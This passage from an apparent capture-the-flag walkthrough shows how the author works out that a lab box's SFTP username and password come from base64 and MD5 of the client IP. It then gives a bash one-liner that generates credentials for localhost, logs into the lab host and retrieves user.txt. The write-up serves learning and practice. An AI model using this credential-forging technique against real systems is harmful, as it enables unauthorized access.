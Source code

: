 

The password is the first 8 characters of the md5 of the users IP. Nice.
What about that base64? It's not in the base64 of the IP address:



    root@kali# echo -n 10.10.14.7 | base64
    MTAuMTAuMTQuNw==



What about base64 of the hashes? I'll use `grep` to see if my username
is in any output:



    root@kali# for hash in md5 sha1 sha256; do echo -n "${hash}: ";echo -n 10.10.14.7 | ${hash}sum | base64 -w0; echo; done | grep mM2Y3Y2U
    md5: NDFmM2Y3Y2UyMzMwZWIzOWM1ODgwNThlOGVjZTExMWYgIC0K



There's a hit, in the base64 of the md5. Now I can create a nice `bash`
one liner to make usernames and password for any ip:



    root@kali# IP=10.10.14.7; echo -n "Username: ots-"; echo -n $IP | md5sum | base64 -w0 | cut -c4-11; echo -n "Password: "; echo -n $IP | md5sum | cut -c-8
    Username: ots-mM2Y3Y2U
    Password: 41f3f7ce



I could check out what others are doing, but based on the name of the
box, I'll try localhost:



    root@kali# IP=127.0.0.1; echo -n "Username: ots-"; echo -n $IP | md5sum | base64 -w0 | cut -c4-11; echo -n "Password: "; echo -n $IP | md5sum | cut -c-8
    Username: ots-yODc2NGQ
    Password: f528764d



And with that I can connect, and find `user.txt`:



    root@kali# sftp ots-yODc2NGQ@10.10.10.133
    ots-yODc2NGQ@10.10.10.133's password: 
    Connected to ots-yODc2NGQ@10.10.10.133.
    sftp> ls
    public.md  user.txt     
    sftp> get user.txt
    Fetching /user.txt to user.txt
    /user.txt 





    root@kali# cat user.txt 
    93a4ce6d...
